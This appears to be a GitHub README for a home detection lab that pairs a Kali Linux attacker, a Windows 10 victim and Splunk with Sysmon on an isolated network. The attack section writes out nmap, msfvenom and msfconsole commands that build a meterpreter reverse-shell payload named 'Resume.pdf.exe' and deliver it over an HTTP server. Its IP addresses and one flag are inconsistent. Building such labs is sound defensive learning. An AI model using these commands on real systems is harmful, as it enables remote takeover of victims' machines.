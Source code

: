 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, the lab environment was not connected to the Internet because of the creation of malware with Kali Linux and the attack on the Windows machine.

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.
- After selecting 'Internal Network' as network, static IP address was selected on each virtual machine.
- After all that, we saw that the virtual machines were reachable with the ‘ping’ command.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    - 192.168.10.100 -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    - msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    - use exploit/multi/handler 
    - options #to see what we can configure 
    - set payload windows/x64/meterpreter/reverse_tcp 
    - set lhost 192.168.2.250 
    - set lport 4444 #this is already given 
    - exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    - python3 -m http.server 9999 #make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    - netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon to get more fields. 
